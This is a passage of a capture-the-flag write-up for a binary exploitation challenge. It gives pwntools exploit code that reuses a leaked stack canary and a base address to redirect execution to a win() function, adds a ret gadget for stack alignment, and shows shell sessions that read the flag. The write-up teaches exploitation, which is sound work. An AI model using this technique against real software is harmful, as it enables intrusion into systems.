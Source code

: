Then if we just add this and try to run the script, it still doesn’t give us a shell. We run it in a debugger and find that we do actually reach `win()`, but get a segmentation fault somewhere inside. 

This is very common, and is because the libc `system()` function requires the stack to be 16-byte aligned. The solution is also very simple - we just have to put a `ret` gadget before the `win()` function address to align the stack first. 

Hence, we make the following modifications to our code

```python
io = start()

rop = ROP(exe)
ret = rop.ret.address

canary_value = read_local_value(8)
start_addr = read_local_value(0x18)

win_addr = (start_addr & 0xfffffffffffff000) | (exe.symbols['win'] & 0xfff)
ret_addr = (start_addr & 0xfffffffffffff000) | (ret & 0xfff)

for _ in range((0x98 // 8)):
    write_bytes(canary_value)

write_bytes(ret_addr)
write_bytes(win_addr)
write_bytes(1337)

io.interactive()
```

Then run it locally and finally get a shell

```
$ python soln.py LOCAL
...
[*] Switching to interactive mode
wow! you win!
$ ls
checksum.bin      checksum.bin.id1  checksum.bin.til  libc-2.31.so  soln.py
checksum.bin.i64  checksum.bin.id2  checksum.c          Makefile
checksum.bin.id0  checksum.bin.nam  ld-2.31.so          soln1.py
```

We then run it on the server, then get our flag

```
$ python soln.py
...
[*] Switching to interactive mode
wow! you win!
$ ls
flag.txt
ld-2.31.so
libc-2.31.so
run
$ cat flag.txt
greyhats{M4tH_H4rD_pwN_b4ng_B4nG_32afe1}
```
